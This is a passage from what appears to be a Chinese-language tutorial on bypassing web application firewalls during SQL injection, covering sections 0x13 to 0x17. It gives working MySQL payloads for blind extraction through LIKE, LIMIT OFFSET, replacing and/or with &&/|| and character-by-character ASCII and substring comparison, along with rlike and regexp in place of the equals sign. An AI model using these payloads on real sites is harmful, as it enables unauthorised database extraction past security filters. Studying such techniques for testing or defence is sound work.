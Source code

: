 ```bash
| user | password |
+------+----------+
| 1    | 2        |
+------+----------+
```

## 0x13 利用 like 进行逗号绕过
使用 like 模糊查询 select user() like '%r%'; 模糊查询成功返回 1 ，否则返回 0。  
找到第一个字符后继续进行下一个字符匹配。从而找到所有的字符组成字符串，最后就是要查询的内容，这种 SQL 注入语句也不会存在逗号，可以绕过 waf 拦截。

## 0x14 limit offset 绕过
SQL 注入时，如果需要限定条目可以使用 limit 0,1 限定返回条目的数目 limit 0,1 返回条一条记录 如果对逗号进行拦截时，可以使用 limit 1 默认返回第一条数据。也可以使用 limit 1 offset 0 从零开始返回第一条记录，这样就绕过 waf 拦截了。

## 0x15 and or not xor 绕过
目前主流的 waf 都会对 id=1 and 1=2、id=1 or 1=2、id=0 or 1=2、id=0 xor 1=1 limit 1 、id=1 xor 1=2等，对这些常见的 SQL 注入检测语句进行拦截。像 and 这些可以有字符代替
```bash
and 等于&&
or 等于 ||
not 等于 !
xor 等于|
所以可以转换成这样
id=1 and 1=1 等于 id=1 && 1=1
id=1 and 1=2 等于 id=1 && 1=2
id=1 or 1=1 等于 id=1 || 1=1
id=0 or 1=0 等于 id=0 || 1=0
```
以上可以绕过一些waf拦截，对注入点进行安全检测，也可以使用运算符号id=1 && 2=1+1 ，id=1 && 2=1-1等。

## 0x16 ASCII字符对比绕过
许多 waf 会对 union select 进行拦截 而且通常比较变态，那么可以不使用联合查询注入，可以使用字符截取对比法，进行突破。  
```sql
select substring(user(),1,1);
select * from users where id=1 and substring(user(),1,1)='r';
select * from users where id=1 and ascii(substring(user(),1,1))=114;
```
最好把'r'换成成 ascii 码，如果开启 gpc 引号会被转义。

## 0x17 等号绕过
如果程序会对=进行拦截 可以使用 like rlike regexp ，或者使用大于号和小于号进行绕过。
```sql
select * from users where id=1 and ascii(substring(user(),1,1))<115;
select * from users where id=1 and ascii(substring(user(),1,1))>115;
select * from users where id=1 and (select substring(user(),1,1)like 'r%');
select * from users where id=1 and (select substring(user(),1,1)rlike 'r');
select * from users where id=1 and 1=(select user() regexp '^r');
select * from users where id=1 and 1=(select user() regexp '^root');
select * from users where id=1 and 1=(select user() regexp '^a');
```
其中rlike和regexp作用相同，可以使用更加复杂的正则表达式进行匹配。
